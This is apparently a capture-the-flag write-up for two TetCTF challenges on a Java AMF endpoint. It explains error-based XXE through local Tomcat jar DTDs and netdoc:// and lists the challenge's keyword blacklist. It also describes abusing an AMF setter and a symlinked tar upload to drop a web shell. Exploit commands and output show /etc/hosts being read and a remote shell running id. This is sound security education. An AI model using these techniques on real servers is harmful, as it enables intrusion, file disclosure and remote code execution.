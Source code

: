 # AMF1

- in this challenge, it's about XXE with some specific techniques on Java

- the blacklist is: `file|ftp|http|https|data|class|bash|logs|log|conf|etc|session|proc|root|history`

- so you can't make a outbound request to get your remote DTD, this time we need a local DTD to archive XXE. Have a quick look on this awesome blog: https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

- with the trick: `jar:/file://[some_zip_file]!/[dtd_inside_the_archive]`, we can make use of local DTD in some jars file of Tomcat
- Reference: https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads_jars.md

- Java has `netdoc://` protocol, which is same as `file://`

- In the context of AMF, it will catch the Exception while handling the xml, and through it as HTTP Response, we can make use of this to archive XXE error-based
    - For ex: 
        - `_://` => no protocol exception

- Final Exploit
    - using `jar://` to load dtd inside some Tomcat jars
    - using `netdoc://` instead of `file://`, `netdoc://` or `file://` can also listing the directory (use to find the flag)
    - amf context exif error message via HTTP Respose + `_://` => error-based XXE

            python amf_xxe.py "http://139.162.40.239:1337/tetctf/messagebroker/amf" foo tetctf_v1


# AMF2

- in the second challenge, we exploit another bug on AMF, trigger `readExternal()` or some public `setters`, this allow us to trigger the `setBackupFile` of `TetCTFUtils`
- `TetCTFUtils.setBackupFile()` execute a `tar` command on arbitrary file on the system, so we need to create and upload a tar symlink file to server with `UploadServlet`
- Another clever way, we can make use of XXE with `jar:http://host/a.zip!/a.txt` with a custom socket server to make the server save the tmp file, and hang the connection to make the tmp file not deleted for a while, then use the xxe bug with `file://` to listing the directory to view the file name of tmp file, and finally, trigger the setter
- The last step: when we have created the symlink to the webroot, we just need to write our shell to the file and it would be written to the webroot as our shell, so you can pass all the filter in the `UploadServlet`

## on your server run: 
    python jar_xxe_server.py

- edit the content of payload `trigger_jar_xxe` in `amf_xxe.py` to point to your socket server

## python tetctf_exp.py 


    [+] trigger_amf_xxe etc_hosts
    etc_hosts output: 
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    172.17.0.3	02688b965fbd (No such file or directory)...Bwlb.....
    [+] Done
    [+] trigger_amf_xxe trigger_jar_xxe
    [+] trigger_amf_xxe get_tmp_filename
    get_tmp_filename output: 
    jar_cache7343514775749524690.tmp
    safeToDelete.tmp (No such file or directory)...Bwlb.2...
    [+] Done
    [+] tmp filename: jar_cache7343514775749524690.tmp
    [+] generate_amf_setter_payload
    [+] trigger_setter
    AppendToGatewayUrl,;jsessionid=A9A1197B578F257C267FABA24A88FF87	/onStatus 
    C	coderootCausedetailsmessage#Server.ProcessinThe supplied destination id is not registered with any service.
    [+] upload_via_symlink
    { "serviceResponse":"true", "serviceError":null, "serviceName":"File Upload", "opName":"fileUpload" }
    [+] done, enjoy shell
    /peterjson@remote_shell/~.~
    id

    uid=1000(service) gid=1000(service) groups=1000(service)


    None
    /peterjson@remote_shell/~.~
    whoami       

    service



